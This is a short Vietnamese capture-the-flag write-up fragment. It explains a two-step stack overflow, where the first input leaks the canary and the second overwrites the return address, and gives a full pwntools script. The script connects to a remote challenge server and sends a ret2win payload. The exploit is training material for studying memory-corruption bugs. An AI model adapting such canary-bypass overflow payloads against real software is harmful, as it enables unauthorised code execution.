 ```c
}
```

Chúng ta chỉ cần yêu cầu nhập 2 lần

1. Lần đầu sẽ leak giá trị canary
2. Lần thứ hai sẽ overwrite retaddr 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./simple_overflow") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"
context.binary = exe 

# p = process(exe.path)
p = remote("103.162.14.116", 12004)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0])

def sa(*args):
    return p.sendafter(args[0], args[1]) 

def rl(): 
    return p.recvline()

def GDB():
    gdb.attach(p, gdbscript = """
        b *save_data+0x00eb
        continue
    """)
    pause() 

# GDB()

sla("name: \n", b"hacker")
sla("save?\n", b"2") 

pay1 = b"A" * 7 * 8 + b"A"
sa("Data: \n", pay1)

p.recvuntil(pay1) 
canary = u64(b"\x00" + p.recv(7))
log.info(f"canary = 0x%x" % canary)

fakerbp = 0xdeadbeef
win = exe.symbols["win"]
ret = 0x401526
pay2 = b"B" * 7 * 8 + p64(canary) + p64(fakerbp) + p64(ret) + p64(win)
sa("Data: \n", pay2)

p.interactive() 

```